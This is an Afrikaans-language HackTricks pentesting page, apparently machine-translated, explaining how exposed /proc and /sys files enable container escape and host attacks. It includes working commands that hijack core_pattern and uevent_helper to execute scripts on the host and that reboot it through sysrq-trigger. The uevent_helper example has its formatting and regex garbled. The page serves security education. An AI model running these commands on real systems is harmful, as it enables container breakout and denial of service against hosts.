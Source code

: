 # Sensitiewe Monte

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Die blootstelling van `/proc` en `/sys` sonder behoorlike naamruimte-isolasie stel beduidende sekuriteitsrisiko's in, insluitend die vergroting van die aanvaloppervlak en inligtingsontsluiting. Hierdie gidse bevat sensitiewe lêers wat, indien verkeerd geconfigureer of deur 'n nie-geautoriseerde gebruiker toegang verkry, kan lei tot houer ontsnapping, gasheer-modifikasie, of inligting kan verskaf wat verdere aanvalle ondersteun. Byvoorbeeld, om `-v /proc:/host/proc` verkeerd te monteer kan AppArmor-beskerming omseil weens sy pad-gebaseerde aard, wat `/host/proc` onbeskermd laat.

**Jy kan verdere besonderhede van elke potensiële kwesbaarheid vind in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Kwesbaarhede

### `/proc/sys`

Hierdie gids laat toegang toe om kernvariabeles te wysig, gewoonlik via `sysctl(2)`, en bevat verskeie subgidse van kommer:

#### **`/proc/sys/kernel/core_pattern`**

* Beskryf in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Laat toe om 'n program te definieer wat uitgevoer moet word op kernlêer-generasie met die eerste 128 bytes as argumente. Dit kan lei tot kode-uitvoering as die lêer met 'n pyp `|` begin.
*   **Toetsing en Exploit Voorbeeld**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Ja # Toets skrywe toegang
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Stel pasgemaakte handler in
sleep 5 && ./crash & # Trigger handler
```

#### **`/proc/sys/kernel/modprobe`**

* Gedetailleerd in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Bevat die pad na die kernmodule-laaier, wat aangeroep word om kernmodules te laai.
*   **Kontroleer Toegang Voorbeeld**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Kontroleer toegang tot modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Verwys na [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* 'n Globale vlag wat beheer of die kern paniek of die OOM-killer aanroep wanneer 'n OOM-toestand voorkom.

#### **`/proc/sys/fs`**

* Volgens [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), bevat opsies en inligting oor die lêerstelsel.
* Skrywe toegang kan verskeie ontkenning van diens-aanvalle teen die gasheer moontlik maak.

#### **`/proc/sys/fs/binfmt_misc`**

* Laat toe om interpreteerders vir nie-inheemse binêre formate te registreer gebaseer op hul magiese nommer.
* Kan lei tot privilige-eskalasie of wortel-sheltoegang as `/proc/sys/fs/binfmt_misc/register` skryfbaar is.
* Betrokke exploit en verduideliking:
* [Poor man's rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Diepgaande tutoriaal: [Video skakel](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Ander in `/proc`

#### **`/proc/config.gz`**

* Mag die kernkonfigurasie onthul as `CONFIG_IKCONFIG_PROC` geaktiveer is.
* Nuttig vir aanvallers om kwesbaarhede in die lopende kern te identifiseer.

#### **`/proc/sysrq-trigger`**

* Laat toe om Sysrq-opdragte aan te roep, wat moontlik onmiddellike stelselhervattings of ander kritieke aksies kan veroorsaak.
*   **Hervatting van Gasheer Voorbeeld**:

```bash
echo b > /proc/sysrq-trigger # Hervat die gasheer
```

#### **`/proc/kmsg`**

* Blootstel kernringbufferboodskappe.
* Kan help in kern exploits, adreslekasies, en sensitiewe stelselinligting verskaf.

#### **`/proc/kallsyms`**

* Lys kern-eksporteerde simbole en hul adresse.
* Essensieel vir kern exploit ontwikkeling, veral om KASLR te oorkom.
* Adresinligting is beperk met `kptr_restrict` op `1` of `2` gestel.
* Besonderhede in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfereer met die kern geheue toestel `/dev/mem`.
* Histories kwesbaar vir privilige-eskalasie-aanvalle.
* Meer op [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Verteenwoordig die stelsels fisiese geheue in ELF kernformaat.
* Lees kan die gasheerstelsel en ander houers se geheue-inhoud lek.
* Groot lêergrootte kan lei tot leesprobleme of sagteware-krake.
* Gedetailleerde gebruik in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternatiewe interfase vir `/dev/kmem`, wat kern virtuele geheue verteenwoordig.
* Laat lees en skryf toe, dus direkte wysiging van kern geheue.

#### **`/proc/mem`**

* Alternatiewe interfase vir `/dev/mem`, wat fisiese geheue verteenwoordig.
* Laat lees en skryf toe, wysiging van alle geheue vereis om virtuele na fisiese adresse op te los.

#### **`/proc/sched_debug`**

* Teruggee proses skedulering inligting, wat PID naamruimte beskermings omseil.
* Blootstel prosesname, ID's, en cgroup identifiseerders.

#### **`/proc/[pid]/mountinfo`**

* Verskaf inligting oor monteerpunte in die proses se monteer naamruimte.
* Blootstel die ligging van die houer `rootfs` of beeld.

### `/sys` Kwesbaarhede

#### **`/sys/kernel/uevent_helper`**

* Gebruik vir die hantering van kern toestel `uevents`.
* Skryf na `/sys/kernel/uevent_helper` kan arbitrêre skripte uitvoer wanneer `uevent` triggers plaasvind.
*   **Voorbeeld vir Exploit**: %%%bash

#### Skep 'n payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Vind gasheer pad van OverlayFS monteer vir houer

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

#### Stel uevent\_helper in op kwaadwillige helper

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

#### Trigger 'n uevent

echo change > /sys/class/mem/null/uevent

#### Lees die uitvoer

cat /output %%%

#### **`/sys/class/thermal`**

* Beheer temperatuurinstellings, wat moontlik DoS-aanvalle of fisiese skade kan veroorsaak.

#### **`/sys/kernel/vmcoreinfo`**

* Lek kern adresse, wat moontlik KASLR in gevaar stel.

#### **`/sys/kernel/security`**

* Huisves `securityfs` interfase, wat konfigurasie van Linux Sekuriteitsmodules soos AppArmor toelaat.
* Toegang kan 'n houer in staat stel om sy MAC-stelsel te deaktiveer.

#### **`/sys/firmware/efi/vars` en `/sys/firmware/efi/efivars`**

* Blootstel interfaces vir interaksie met EFI veranderlikes in NVRAM.
* Misconfigurasie of eksploit kan lei tot gebroke skootrekenaars of onbootbare gasheer masjiene.

#### **`/sys/kernel/debug`**

* `debugfs` bied 'n "geen reëls" debugging interfase aan die kern.
* Geskiedenis van sekuriteitskwessies weens sy onbeperkte aard.

### Verwysings

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Begrip en Versterking van Linux Houers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Misbruik van Bevoegde en Onbevoegde Linux Houers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
